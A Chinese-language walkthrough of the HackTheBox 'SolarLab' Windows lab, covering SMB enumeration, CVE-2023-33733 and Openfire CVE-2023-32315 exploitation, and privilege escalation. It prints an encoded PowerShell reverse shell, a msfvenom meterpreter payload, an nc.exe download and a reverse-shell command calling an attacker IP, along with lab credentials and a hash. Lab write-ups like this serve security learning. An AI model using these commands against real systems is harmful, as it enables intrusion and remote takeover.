






## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap Scan


开放端口：`80`、`135`、`139`、`445`


可以看到存在**smb**服务（SMB是一种网络文件共享协议）

尝试使用`smbclient`进行连接


需要密码，不过能看出有一些分享的资源

使用免密连接，成功进入Documents



使用get命令将文件下载下来


在`details-file.xlsx`里面发现了敏感信息



## Subdomain Fuzzing



发现`report`子域名

不过直接进入该子域名会重定向到`solarlab.htb`，于是再进行一次全端口扫描，应该是还有遗漏的端口


进入6791端口，是一个登录界面


之前下载了一个xlsx表格里面有用户名和密码，进行逐一尝试

`AlexanderK`和`ClaudiaS`都是用户认证失败，其余的都是用户不存在，可以注意到的是blake的密码似乎比较特别，但是用户名格式与另外的不对，猜测真正的用户名应该是：`blakeB`


登录成功


## CVE-2023-33733

Github：[L41KAA/CVE-2023-33733-Exploit-PoC (github.com)](https://github.com/L41KAA/CVE-2023-33733-Exploit-PoC)

准备好powershell的反弹shell


```
┌──(root㉿kali)-[/home/kali/Desktop/Solarlab/CVE-2023-33733-Exploit-PoC]
└─# python exp.py --host "report.solarlab.htb" --port 6791 --cmd "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgA5ACIALAAxADAAMAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=" --username "blakeB" --password "ThisCanB3typedeasily1@"
```


成功反弹到shell，并且在blake的桌面拿到user.txt


## Privilege Escalation

这里给靶机上一个msf木马

```
┌──(root㉿kali)-[/home/kali/Desktop/Solarlab]
└─# msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.29 lport=6789 -f exe -o shell.exe 

┌──(root㉿kali)-[/home/kali/Desktop/Solarlab]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.16 - - [19/Sep/2024 07:41:48] "GET /shell.exe HTTP/1.1" 200 -
```




在目录遍历中，我发现了一个`Openfire`文件夹位于`Program Files`中


```
#查看端口情况
netstat -an | findstr LISTEN
```


发现了很多openfire相关的服务正在运行中

并且经过信息收集发现openfire是存在RCE漏洞的

Github：[K3ysTr0K3R/CVE-2023-32315-EXPLOIT: A PoC exploit for CVE-2023-32315 - Openfire Authentication Bypass (github.com)](https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT)


并且也可以curl查看到存在登录界面

由于meterpreter自带的有端口转发工具（**portfwd**），我尝试了一下，无法使用，why？？？？

或许是因为windows防火墙的原因导致端口转发失败


可以使用`chisel`来进行端口转发：[Release v1.7.4 · jpillora/chisel (github.com)](https://github.com/jpillora/chisel/releases/tag/v1.7.4)

```
#windows
C:\tmp>chisel_win.exe client 10.10.16.29:1234 R:9090:127.0.0.1:9090

#kali
┌──(root㉿kali)-[/home/kali/Desktop/Solarlab]
└─# ./chisel_1.7.4_linux_amd64  server --socks5 --reverse -p 1234
```


代理成功


### CVE-2023-32315


得到用户名和密码

在openfire界面中可以上传插件

Github：[](https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass)[miko550/CVE-2023-32315: Openfire Console Authentication Bypass Vulnerability with RCE plugin (github.com)](https://github.com/miko550/CVE-2023-32315)



将编译好的jar包进行上传，进入`server settings`\->`manage tools`，默认的密码是：123

由于靶机目录中没有**`nc.exe`**，需要远程下载一下

```
curl 10.10.16.29/nc.exe -O nc.exe
```


```
nc.exe 10.10.16.29 100 -e powershell.exe
```


成功进入Openfire目录！

但是无法进入`Administrator`，在日志文件中发现admin的账户


在`openfire.script`中，发现了类似于密码哈希的东西



```
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTEGER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))
```

```
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
```

两者相对比

```
salt：yidQk5Skw11QJWTBAloAb28lYHftqa0x
encryptpass：becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442
```

并且我找到了一个能够进行解密的工具

Github：[jas502n/OpenFire\_Decrypt: OpenFire (github.com)](https://github.com/jas502n/OpenFire_Decrypt)


得到了Administrator的密码！

使用`impack-smbexec`远程执行


拿到root.txt!

## Summary

在meterpreter的`protfwd`端口转发那里，还是不太理解为什么不能转发成功，反而要借助其他的EXE文件来进行建立隧道。

关于smbexec的文章：[SMBExec：红面分析（第 2 部分） (stacktitan.com)](https://rift.stacktitan.com/smbexec_part2/)

为什么不能在`smbexec`中执行CD操作？此文章中提到了：smbexec并不是一个真正的交互式SHELL，运行的每个命令都会导致 Windows 服务和命令 shell 的重新执行，以及新的批处理文件和输出文件

后面的文章中可能会对`Impacket`的相关脚本进行详细解析。
